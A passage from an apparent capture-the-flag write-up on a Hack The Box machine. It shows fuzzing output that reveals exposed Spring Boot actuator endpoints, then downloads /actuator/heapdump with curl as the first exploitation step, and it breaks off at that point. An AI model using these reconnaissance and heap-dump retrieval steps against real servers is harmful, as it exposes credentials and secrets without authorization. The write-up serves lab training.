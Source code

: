 ```bash
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

actuator/heapdump       [Status: 200, Size: 80165337, Words: 0, Lines: 0, Duration: 0ms]
actuator/info           [Status: 200, Size: 2, Words: 1, Lines: 1, Duration: 632ms]
actuator/refresh        [Status: 405, Size: 114, Words: 3, Lines: 1, Duration: 439ms]
actuator/env/home       [Status: 200, Size: 668, Words: 11, Lines: 1, Duration: 839ms]
actuator                [Status: 200, Size: 2129, Words: 1, Lines: 1, Duration: 962ms]
actuator/caches         [Status: 200, Size: 20, Words: 1, Lines: 1, Duration: 938ms]
actuator/env            [Status: 200, Size: 6307, Words: 94, Lines: 1, Duration: 826ms]
actuator/env/lang       [Status: 200, Size: 668, Words: 11, Lines: 1, Duration: 821ms]
actuator/metrics        [Status: 200, Size: 3356, Words: 1, Lines: 1, Duration: 631ms]
actuator/env/path       [Status: 200, Size: 668, Words: 11, Lines: 1, Duration: 798ms]
actuator/features       [Status: 200, Size: 467, Words: 6, Lines: 1, Duration: 1004ms]
actuator/health         [Status: 200, Size: 15, Words: 1, Lines: 1, Duration: 1309ms]
actuator/scheduledtasks [Status: 200, Size: 54, Words: 1, Lines: 1, Duration: 1007ms]
actuator/mappings       [Status: 200, Size: 35560, Words: 362, Lines: 1, Duration: 1252ms]
actuator/configprops    [Status: 200, Size: 37195, Words: 43, Lines: 1, Duration: 1897ms]
actuator/loggers        [Status: 200, Size: 101592, Words: 1, Lines: 1, Duration: 1186ms]
actuator/conditions     [Status: 200, Size: 184221, Words: 5691, Lines: 1, Duration: 1332ms]
actuator/beans          [Status: 200, Size: 202253, Words: 913, Lines: 1, Duration: 1343ms]
actuator/threaddump     [Status: 200, Size: 1087199, Words: 5, Lines: 1, Duration: 964ms]
```


We got a bunch of stuff on here, if we check information on `/actuator/heapdump`, we can find this:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250619143745.png)


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250619143822.png)


This article is pretty useful on how to exploit this misconfiguration:

Article: https://www.wiz.io/blog/spring-boot-actuator-misconfigurations#how-can-wiz-help-88

Let's begin exploitation.


# EXPLOITATION
---

Let's get our heapdump first:

```bash
curl http://furni.htb/actuator/heapdump -O heapdump

% Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 76.4M  100 76.4M    0     0  1676k      0  0:00:46  0:00:46 --:--:-- 1636k
```
